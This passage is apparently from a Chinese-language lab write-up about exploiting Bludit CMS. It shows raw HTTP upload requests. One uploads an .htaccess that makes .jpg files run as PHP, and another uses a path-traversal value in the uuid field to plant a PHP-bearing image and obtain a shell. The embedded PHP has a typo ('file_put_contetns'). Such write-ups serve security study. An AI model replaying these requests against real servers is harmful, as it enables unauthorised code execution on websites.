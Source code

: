 ```
 
RewriteEngine off
AddType application/x-httpd-php jpg
-----------------------------1197595220477940257964308486
Content-Disposition: form-data; name="uuid"
 
21b8a0e80e433cb7453e7d72382c6bc1
-----------------------------1197595220477940257964308486
Content-Disposition: form-data; name="tokenCSRF"
 
c623c868d292dec9b4e11c104f54c9e3dde971ee
-----------------------------1197595220477940257964308486--
```

 

上传恶意wh1sper.jpg到/bl-content/tmp/temp/目录：

```
POST /admin/ajax/upload-images HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.§191§/admin/edit-content/blender
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------1197595220477940257964308486
Content-Length: 589
Connection: close
Cookie: BLUDIT-KEY=k35lg8hngofh6kvif51i37m0o5
 
-----------------------------1197595220477940257964308486
Content-Disposition: form-data; name="images[]"; filename="wh1sper.jpg"
Content-Type: image/jpeg
 
<?php file_put_contetns("../wh1sper.php","<?php phpinfo();?>");?>
-----------------------------1197595220477940257964308486
Content-Disposition: form-data; name="uuid"
 
21b8a0e80e433cb7453e7d72382c6bc1/../../../tmp/temp
-----------------------------1197595220477940257964308486
Content-Disposition: form-data; name="tokenCSRF"
 
c623c868d292dec9b4e11c104f54c9e3dde971ee
-----------------------------1197595220477940257964308486--
```

 

获得shell：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180645.png)
